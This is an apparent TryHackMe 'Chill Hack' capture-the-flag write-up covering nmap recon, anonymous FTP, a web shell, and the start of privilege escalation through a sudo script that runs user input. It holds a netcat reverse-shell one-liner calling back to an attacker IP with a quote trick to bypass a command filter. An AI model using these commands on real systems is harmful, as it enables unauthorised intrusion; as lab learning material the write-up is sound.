




# 🏴 TryHackMe - Chill Hack

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.132.2

**The login and register buttons aren't working**

### Nmap Scan
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ nmap -sC -sV -oN Nmap/initial 10.10.132.2  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 14:04 EDT
Nmap scan report for 10.10.132.2
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.197.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8a:90:81:1f:8d:f9:5d:dd:42:93:9d:18:a6:e8:44:80 (RSA)
|   256 c7:45:73:aa:8f:4a:e0:85:f2:72:76:3a:42:40:46:dd (ECDSA)
|_  256 01:fd:6b:cf:04:b1:84:9d:f9:d6:a6:7a:0f:bc:a6:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Ports open 21 - ftp, 22 shh, 80 http**
>**FTP** is open with Anonymous, let's see if we can find something interesting 
```bash  
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ ftp 10.10.132.2                    
Connected to 10.10.132.2.
220 (vsFTPd 3.0.5)
Name (10.10.132.2:robert): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16016|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||41095|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |*********************************************************|    90      861.67 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (1.63 KiB/s)
ftp> 
```
>cat note.txt
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ cat note.txt                             
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
>Anurodh might be an user

### GoBuster Enuemeration 

>/secret looks interesting, let's see

>web-shell, nice, let's try with reverse shell if we can execute commands

>ls is not working, we have to go deeper
>reverse shell, we are in r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.197.1 4444 >/tmp/f, using " " to bypass the filter 


>the shell is non interactive, let's import python3 -c 'import pty;pty.spawn("/bin/bash")'



>Before starting my enumeration, First I want to know that if I can run any commands as sudo. Here, I find I can run a script named .helpline.sh as apaar.                                                                                           

```bash
www-data@ip-10-10-132-2:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-132-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-132-2:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

>cat .helpline.sh

```bash
www-data@ip-10-10-132-2:/home/apaar$ cat .helpline.sh
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```